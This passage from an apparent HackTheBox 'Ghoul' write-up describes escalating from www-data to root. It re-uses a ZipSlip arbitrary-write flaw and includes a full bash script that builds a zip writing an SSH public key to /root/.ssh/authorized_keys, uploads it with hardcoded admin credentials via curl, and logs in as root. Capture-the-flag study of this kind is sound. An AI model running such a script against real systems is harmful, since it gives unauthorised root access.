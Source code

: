 ```
www-data  25363  0.0  0.4 522940 19656 ?        S    May23   0:08 /usr/sbin/apache2 -DFOREGROUND
www-data  25371  0.0  0.4 522940 18496 ?        S    May23   0:08 /usr/sbin/apache2 -DFOREGROUND
www-data  25399  0.0  0.5 523460 22744 ?        S    May23   0:07 /usr/sbin/apache2 -DFOREGROUND
www-data  25405  0.0  0.5 523460 22760 ?        S    May23   0:07 /usr/sbin/apache2 -DFOREGROUND
www-data  25418  0.0  0.4 522940 19656 ?        S    May23   0:07 /usr/sbin/apache2 -DFOREGROUND
www-data  25423  0.0  0.4 522940 19656 ?        S    May23   0:07 /usr/sbin/apache2 -DFOREGROUND
www-data  25424  0.0  0.5 523460 22744 ?        S    May23   0:07 /usr/sbin/apache2 -DFOREGROUND
www-data  25427  0.0  0.5 523460 22688 ?        S    May23   0:07 /usr/sbin/apache2 -DFOREGROUND
www-data  27463  0.0  0.0  36148  3328 pts/0    R+   07:11   0:00 ps auxww

```

### Re-Exploit Zip

The site on 8080 that took my uploaded zip and processed it was the one run by the `java` process. I had used it to write to the apache directory, and that’s why I’m currently running as www-data. But since the ZipSlip was actually carried out by root, I suspect I can write other files as root, and not just a webshell. Arbitrary write is something that’s come up many times before in HTB, and there are *tons* of ways to get root from it. I’ll drop an ssh key into `/root/.ssh/authorized_keys`

### Root Shell Script

I wrote a script to get a root shell on the first container. It creates a temp directory to work out of. In there, it creates an ssh key pair, then uses my ZipSlip script to create a zip. Then it uploads it, and connects over ssh. On ssh disconnect, it cleans up the temp directory.

```

#!/bin/bash

base=$(mktemp -d)
sshkey=${base}/key
zip=${base}/z.zip

echo "[*] Creating ssh key pair"
ssh-keygen -b 2048 -t rsa -f ${sshkey} -q -N ""
chmod 600 ${sshkey}

echo "[*] Creating zipslip zip with public key as authorized_keys"
./zip_slip.sh ${zip} ${sshkey}.pub /root/.ssh/authorized_keys 10 

echo "[*] Uploading zip to Ghoul"
curl -s -X POST http://10.10.10.101:8080/upload -H "Authorization: Basic YWRtaW46YWRtaW4=" -F "file=@${zip}" | grep -q "File Uploaded Successfully" ||
    (echo "[-] Failed to upload zip" & exit)
echo "[+] zip uploaded successfully"

echo "[*] Connecting to Ghoul over SSH as root"
ssh -i ${sshkey} root@10.10.10.101

rm -rf ${base}

```
